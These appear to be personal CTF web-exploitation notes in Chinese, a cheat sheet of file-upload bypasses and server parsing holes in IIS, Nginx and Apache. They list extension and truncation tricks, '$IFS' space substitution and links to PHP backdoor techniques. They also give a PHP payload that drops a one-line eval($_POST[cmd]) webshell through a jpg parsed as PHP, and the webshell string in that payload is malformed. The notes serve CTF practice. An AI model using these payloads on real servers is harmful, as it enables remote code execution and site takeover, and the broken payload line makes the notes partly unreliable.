 TODO:  
## 上传二次渲染
有时候上传文件时php会用组件把你的文件格式更改为jpg，需要用/ctf/web/php/php_jpg.php中的脚本进行绕过

## 文件解析
https://blog.csdn.net/wn314/article/details/77074477
https://www.cnblogs.com/shellr00t/p/6426856.html

```
截断，分号 php=>ptml,php2 php3 php4 phpss...  
flag.php:1  
flag.php::$DATA  
空格可以使用$IFS代替
```
## 回调后门
https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html

## 解析

### IIS 6.0
    /xx.asp/xx.jpg "xx.asp"是文件夹名

### IIS 7.0/7.5 Nginx<8.03畸形解析漏洞

默认FAST-CGI开启状态上传一个1.jpg内容

```php
<?php fputs(fopen('shell.php','w'),'?<php eval($_POST[cmd]?>');?>
```
访问1.jpg/.php。在这个目录下就会生成一句话木马shell.php
### Nginx
- 版本小于等于0.8.37，利用方法和IIS 7.0/7.5一样，Fast-CGI关闭情况下也可利用。
- 00截断

### Apache
    上传的文件命名为：test.php.x1.x2.x3，Apache是从右往左判断后缀
目录解析 1.asp/1.png
分号截断 1.asp;.png

